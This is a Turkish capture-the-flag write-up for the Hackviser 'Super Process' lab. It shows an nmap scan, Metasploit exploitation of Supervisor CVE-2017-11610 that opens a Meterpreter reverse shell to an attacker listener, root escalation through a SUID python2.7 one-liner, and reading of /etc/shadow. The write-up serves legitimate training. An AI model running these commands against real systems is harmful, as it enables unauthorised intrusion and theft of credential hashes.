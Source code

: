 ```yaml
---
title: Super Process
date: 2024-03-27 12:23:12 
categories: [Hackviser]
tags: [Warmups]  
image: /images/superprocess.webp
---
```


Bu makine, yaygın olarak kullanılan bir açık kaynaklı web uygulamasında zafiyet araştırmacılığının, makineye erişim sağlamanın ve linux tabanlı sistemlerde yetki yükseltme saldırılarının nasıl yapılabileceğini öğretmeye odaklanır.

Bir web uygulamasında zafiyet tespit edilmesi, zafiyetin Metasploit Framework aracılığıyla istismar edilmesi ve hatalı yapılandırmalardan kaynaklı yetki yükseltme saldırıları ile ilgili alıştırmalar yapmak için önerilir.

<a href="https://app.hackviser.com/warmups/super-process">Super Process</a>

---

1- Hangi portlar açık?


````bash
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 172.20.1.131
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-30 13:24 EDT
Nmap scan report for 172.20.1.131 (172.20.1.131)
Host is up (0.070s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
9001/tcp open  http    Medusa httpd 1.12 (Supervisor process manager)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.29 seconds
````

2- Web uygulamasında bulunan güvenlik açığının CVE kodu nedir?

9001 portunda bir web servisi çalıştığını görüyoruz.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/SuperProcess/images/1.png?raw=true)


Websitesinin altında yazan Supervisor 3.3.2 versiyonunu araştırdım.

````bash
┌──(root㉿kali)-[~]
└─# searchsploit supervisor 3.3.2
----------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------- ---------------------------------
Supervisor 3.0a1 < 3.3.2 - XML-RPC (Authenticated) Remote Code Execution (Metasploit)                                  | linux/remote/42779.rb
----------------------------------------------------------------------------------------------------------------------- ---------------------------------
````

Metasploitte bununla ilgili bir exploit mevcut. Bu exploiti kullarak ilerleyeceğim.

````
msf6 > search supervisor

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/http/cisco_ucs_rce             2019-08-21       excellent  Yes    Cisco UCS Director Unauthenticated Remote Code Execution
   1  exploit/linux/ssh/cisco_ucs_scpuser          2019-08-21       excellent  No     Cisco UCS Director default scpuser password
   2  exploit/linux/http/supervisor_xmlrpc_exec    2017-07-19       excellent  Yes    Supervisor XML-RPC Authenticated Remote Code Execution
   3  exploit/linux/http/trueonline_p660hn_v2_rce  2016-12-26       excellent  Yes    TrueOnline / ZyXEL P660HN-T v2 Router Authenticated Command Injection
   4  exploit/linux/http/zyxel_lfi_unauth_ssh_rce  2022-02-01       excellent  Yes    Zyxel chained RCE using LFI and weak password derivation algorithm
   5    \_ target: Unix Command                    .                .          .      .
   6    \_ target: Linux Dropper                   .                .          .      .
   7    \_ target: Interactive SSH                 .                .          .      .


Interact with a module by name or index. For example info 7, use 7 or use exploit/linux/http/zyxel_lfi_unauth_ssh_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Interactive SSH'

msf6 > use 2
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/supervisor_xmlrpc_exec) > info

       Name: Supervisor XML-RPC Authenticated Remote Code Execution
     Module: exploit/linux/http/supervisor_xmlrpc_exec
   Platform: Linux
       Arch: x86, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2017-07-19

Provided by:
  Calum Hutton <c.e.hutton@gmx.com>

Available targets:
      Id  Name
      --  ----
  =>  0   3.0a1-3.3.2

Check supported:
  Yes

Basic options:
  Name          Current Setting  Required  Description
  ----          ---------------  --------  -----------
  HttpPassword                   no        Password for HTTP basic auth
  HttpUsername                   no        Username for HTTP basic auth
  Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT         9001             yes       The target port (TCP)
  SSL           false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI     /RPC2            yes       The path to the XML-RPC endpoint
  URIPATH                        no        The URI to use for this exploit (default is random)
  VHOST                          no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to list
                                      en on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  This module exploits a vulnerability in the Supervisor process control software, where an authenticated client
  can send a malicious XML-RPC request to supervisord that will run arbitrary shell commands on the server.
  The commands will be run as the same user as supervisord. Depending on how supervisord has been configured, this
  may be root. This vulnerability can only be exploited by an authenticated client, or if supervisord has been
  configured to run an HTTP server without authentication. This vulnerability affects versions 3.0a1 to 3.3.2.

References:
  https://github.com/Supervisor/supervisor/issues/964
  https://www.debian.org/security/2017/dsa-3942
  https://github.com/phith0n/vulhub/tree/master/supervisor/CVE-2017-11610
  https://nvd.nist.gov/vuln/detail/CVE-2017-11610
````

- CVE-2017-11610

Exploiti çalıştıralım.

````
msf6 exploit(linux/http/supervisor_xmlrpc_exec) > set lhost 10.8.1.33
lhost => 10.8.1.33
msf6 exploit(linux/http/supervisor_xmlrpc_exec) > set rhosts 172.20.1.131
rhosts => 172.20.1.131
msf6 exploit(linux/http/supervisor_xmlrpc_exec) > run

[*] Started reverse TCP handler on 10.8.1.33:4444 
[*] Sending XML-RPC payload via POST to 172.20.1.131:9001/RPC2
[*] Sending stage (3045380 bytes) to 172.20.1.131
[*] Command Stager progress -  97.32% done (798/820 bytes)
[*] Sending XML-RPC payload via POST to 172.20.1.131:9001/RPC2
[*] Command Stager progress - 100.00% done (820/820 bytes)
[+] Request returned without status code, usually indicates success. Passing to handler..
[*] Meterpreter session 1 opened (10.8.1.33:4444 -> 172.20.1.131:39564) at 2024-03-30 13:32:49 -0400

meterpreter >
````

Makineye giriş yapmayı başardık.

3- Güvenlik zafiyeti bulunan servis hangi kullanıcının izinleri ve yetkileri ile çalışıyor?

````bash
meterpreter > shell
Process 471 created.
Channel 1 created.
id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
````

4- Yetki yükseltme için kullanabileceğimiz SUID izinlerine sahip uygulamanın adı nedir?

`find / -perm -u=s -type f 2>/dev/null` komutunu kullanabiliriz.

````bash
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/python2.7
````

Yetki yükseltmek için `/usr/bin/python2.7` dosyasını kullanabiliriz.

````bash
python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
````

5- "root" kullanıcısı için /etc/shadow içindeki parola hash değeri nedir?

````bash
cat /etc/shadow
````


![fsoc](/images/fsoc.gif)


